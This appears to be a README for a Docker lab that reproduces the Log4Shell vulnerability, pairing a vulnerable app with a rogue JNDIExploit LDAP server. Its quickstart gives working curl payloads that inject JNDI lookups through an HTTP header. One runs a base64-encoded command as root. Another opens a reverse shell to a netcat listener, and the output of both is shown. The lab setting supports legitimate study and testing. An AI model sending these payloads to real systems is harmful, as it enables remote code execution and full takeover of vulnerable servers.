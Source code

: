 full playground setup for log4shell using [this great app and documentation](https://github.com/christophetd/log4shell-vulnerable-app) ([their blog post](https://www.cynet.com/log4shell/))and [this rogue LDAP server](https://codechina.csdn.net/mirrors/feihong-cs/JNDIExploit.git) (codechina mirror as it was removed from github)

Both projects copied into this repo and original README/LICENSEs kept under each.

## Quickstart

* Launch the *lab*
```
docker compose up
```
* Send payload to *vulnapp`
```
curl 127.0.0.1:40000 -H 'X-Api-Version: ${jndi:ldap://ldap:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
* Verify payload executed
```
docker compose exec vulnapp ls -l /tmp/pwned
-rw-r--r--    1 root     root             0 Dec 14 01:43 /tmp/pwned
```

Check [JNDIExploit README](JNDIExploit/README.md) for more options (paths), such as reverse shell:

1. Install `bash` in vulnapp (does not work with alpine `sh`): `docker compose exec apk add bash`
1. Start netcat on ldap container (but can be anywhere) `docker compose exec ldap nc -nvlp 7677`
1. Use `/Reverseshell` path: `curl 127.0.0.1:40000 -H 'X-Api-Version: ${jndi:ldap://ldap:1389/Basic/ReverseShell/ldap/7677}'`
1. Enjoy the shell
```
listening on [::]:7677 ...
connect to [::ffff:172.19.0.2]:7677 from [::ffff:172.19.0.3]:38094 ([::ffff:172.19.0.3]:38094)
bash-4.4#
```
